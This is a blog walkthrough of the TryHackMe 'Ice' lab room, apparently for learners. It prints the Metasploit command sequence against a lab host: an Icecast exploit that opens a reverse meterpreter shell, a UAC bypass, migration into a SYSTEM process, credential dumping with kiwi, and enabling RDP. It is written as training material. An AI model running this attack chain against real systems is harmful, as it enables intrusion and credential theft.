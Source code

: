 ```yaml
---
slug: ice-walkthrough
title: TryHackMe - Ice - Walkthrough
authors: bw
tags: [learning, ice, tryhackme, walkthrough]
---
```


This is a walkthrough for room: [Ice][ice-r], on [TryHackMe][thm]. This is an easy walkthrough room. Let’s get started!

# Recon
We are going to start with an `nmap` scan:

![i1](/src/img/thm/ice/i1.png)

We can utilize the `nmap` scan to answer the first 3 questions of the room.

# Gain Access
Let’s do some googling and look for the CVE score of the icecast vulnerability. Here is a link to the list of vulnerabilities: [Link][ice-v]. Here we find out next two answers.

Start metasploit:

```bash
msfconsole
search icecast ##(find next answer)
use 0
options
set rhosts 10.10.35.203
set lhost tun0 ##(if needed)
run
```
Wow. We got a shell! That was pretty easy. Let’s continue on!

![i2](/src/img/thm/ice/i2.png)

# Escalate
We get the first answer right away. Next let’s run the following for more answers:

`getuid`
`sysinfo`
**NOTE:** Normally, I would back out of this exploit, and change the payload of our meterpreter shell to x64 instead of our current x86 (we always want those to line up), but in this case I am just going to keep going.

```bash
run post/multi/recon/local_exploit_suggester
background
use exploit/windows/local/bypassuac_eventvwr
options
set sessions 1 #(Your session could be a different number)
set lhost tun0
set lport 4445 #(We already have a session on 4444)
run
getprivs
```
We now have elevated permissions! Last answer can be found from the output of the `getprivs` command.

![i3](/src/img/thm/ice/i3.png)

# Looting
Let’s run `ps`, where we find our next answer:

![i4](/src/img/thm/ice/i4.webp)

Now we can migrate to that process with `migrate -N <process_name>`

**NOTE:** We can also migrate by using the Process ID (PIC): `migrate 692`

Now when we run getuid we are: `NT AUTHORITY\SYSTEM`. WOOHOO!

```bash
load kiwi
help
creds_all
```
With that, we have completed this section! Almost done!

# Post-Exploitation
Run `help` to answer all the questions in this section.

Enable RDP: `run post/windows/manage/enable_rdp`

# Extra Credit
That’s all there is to this room! Try doing the manual exploitation on your own!

# Review
This was a really interesting walkthrough room. While it was heavily guided, I liked how it followed the process of how you would do a pentest on the machine in a way that somewhat resembles the real-world. I hope you enjoyed this walkthrough!

References
[Ice Room][ice-r] | [TryHackMe][thm] | [Icecast Vulns][ice-v]

[ice-r]: https://tryhackme.com/r/room/ice
[thm]: https://tryhackme.com
[ice-v]: https://www.cvedetails.com/vulnerability-list/vendor_id-693/product_id-1194/version_id-16877/Icecast-Icecast-2.0.1.html
